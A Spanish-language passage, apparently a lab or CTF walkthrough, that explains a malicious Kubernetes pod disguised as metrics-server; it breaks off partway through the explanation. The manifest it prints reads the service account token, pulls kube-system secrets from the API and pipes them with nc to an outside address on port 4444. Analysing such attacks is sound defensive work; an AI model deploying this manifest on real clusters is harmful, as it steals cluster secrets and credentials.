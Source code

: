 ### Vamos a desglosar esto: 

## 1. Identidad y contexto del pod

```yaml
metadata:
  name: metrics-server-557ff575fx-4q62x
  namespace: kube-system
spec:
  hostNetwork: true
  automountServiceAccountToken: true
```

- **Nombre engañoso**: Se llama _metrics-server-557ff575fx-4q62x_ para pasar por el legítimo _metrics-server_, un componente estándar de Kubernetes.  
- **hostNetwork: true**: Al usar la red del nodo, el contenedor puede alcanzar la API de Kubernetes en `10.43.191.212:8443` (la IP `ClusterIP` del servicio de la API) sin pasar por la red de pods.  
- **automountServiceAccountToken: true**: Kubernetes monta automáticamente, dentro del pod, el token de la cuenta de servicio (service account) asociada, normalmente en `/run/secrets/kubernetes.io/serviceaccount/token`.

## 2. Contenedor “alpine” y su comando

```yaml
containers:
- name: alpine
  image: alpine
  command:
    - /bin/sh
  args:
    - -c
    - |
      apk update && apk add curl --no-cache;
      cat /run/secrets/kubernetes.io/serviceaccount/token | {
        read TOKEN;
        curl -k -v \
          -H "Authorization: Bearer $TOKEN" \
          -H "Content-Type: application/json" \
          https://10.43.191.212:8443/api/v1/namespaces/kube-system/secrets;
      } | nc -nv 10.10.14.11 4444;
      sleep 100000
```

### a) `/bin/sh -c '...'`
Arranca un shell que ejecuta todos los pasos que siguen delimitados por `-c`.

### b) `apk update && apk add curl --no-cache`
Instala la herramienta `curl` dentro de la imagen Alpine para poder hacer peticiones HTTP/HTTPS.

### c) Lectura y uso del ServiceAccount Token

